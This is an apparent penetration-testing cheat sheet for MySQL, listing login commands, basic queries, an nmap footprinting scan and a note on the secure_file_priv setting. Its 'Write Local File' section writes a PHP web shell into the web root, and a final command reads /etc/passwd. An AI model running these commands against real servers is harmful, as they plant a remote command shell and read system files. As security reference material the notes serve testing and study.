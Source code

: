 ## delete


# MySQL
## Interaction
```bash
$ mysql -u root -h <IP>
$ mysql -u root -pP4SSw0rd -h <IP> -P 3306
```
                      
| Command                                            | Description                                             |
|----------------------------------------------------|---------------------------------------------------------|
| show databases;                                    | Show all databases.                                     |
| use <database>;                                    | Select one of the existing databases.                   |
| show tables;                                       | Show all available tables in the selected database.     |
| show columns from <table>;                         | Show all columns in the selected database.              |
| select * from <table>;                             | Show everything in the desired table.                   |
| select * from <table> where <column> = "<string>"; | Search for the needed string in the desired table.      |


## Footprinting
```bash
$ sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

## Write Local File
```bash
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```

In MySQL, a global system variable secure_file_priv limits the effect of data import and export operations, such as those performed by the LOAD DATA and SELECT … INTO OUTFILE statements and the LOAD_FILE() function. These operations are permitted only to users who have the FILE privilege.

secure_file_priv may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

In the following example, we can see the secure_file_priv variable is empty, which means we can read and write data using MySQL:

## Read Local Files
```bash
mysql> select LOAD_FILE("/etc/passwd");
```
